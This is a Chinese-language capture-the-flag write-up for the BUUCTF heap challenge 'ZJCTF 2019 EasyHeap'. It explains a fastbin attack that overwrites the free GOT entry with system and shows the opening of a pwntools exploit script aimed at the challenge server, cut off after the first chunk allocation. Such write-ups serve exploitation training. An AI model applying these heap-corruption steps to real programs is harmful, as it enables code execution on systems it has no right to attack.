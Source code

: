 # buu039-[ZJCTF 2019]EasyHeap
一道堆题，经典的菜单，创建chunk（最多10个），编辑chunk（可以有任意长度的堆溢出），删除chunk（没有悬挂指针）。因此本题考察堆溢出。

由于本题环境在2.23，因此可以使用的堆漏洞方式比更高版本的更多。

```c
      if ( choice == 4869 )
      {
        if ( (unsigned __int64)magic <= 0x1305 )
        {
          puts("So sad !");
        }
        else
        {
          puts("Congrt !");
          l33t();
        }
      }
```
题目里面有这么一段，应该是只要能够把地址magic的位置修改成大于0x1305，然后选项填4869就能getshell。

**方法1：fastbin attack**
这应该是最简单的方法了。分配一些小的chunk，然后通过堆溢出直接修改chunk的fd指针。这个时候需要绕过一个检查：
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
```
也就是会检查fastbin的chunk的size是否正确。我们可以错位分配fastbin chunk到bss段中的heaparray中，以实现对写入地址的完全控制。

![](https://img-blog.csdnimg.cn/07586aced18e4f8d9fd46383e318065e.png)
分配之后，heaparray[2]应该是0x6020B5-0x8的地址。修改magic之后调用l33t函数，但是发现没有这个文件。好家伙玩我是吧......

但是还有其他方法。我们现在控制了bss段，可以随意修改heaparray，从而实现任一地址任意长度写。因此可以修改got表，把exit或malloc等函数改成system的plt地址即可，但是由于要传入参数，所以考虑修改free.got。

exp：
```python
from pwn import *
context(arch='amd64', log_level='debug')

# io = process('./easyheap')
elf = ELF('./easyheap')
io = remote('node4.buuoj.cn', 28974)

def create(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap:', content)

def edit(index, size, content):
	io.sendlineafter(b'Your choice :', b'2')
	io.sendlineafter(b'Index :', str(index).encode())
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())

create(0x40, b'colin')		# chunk #0
```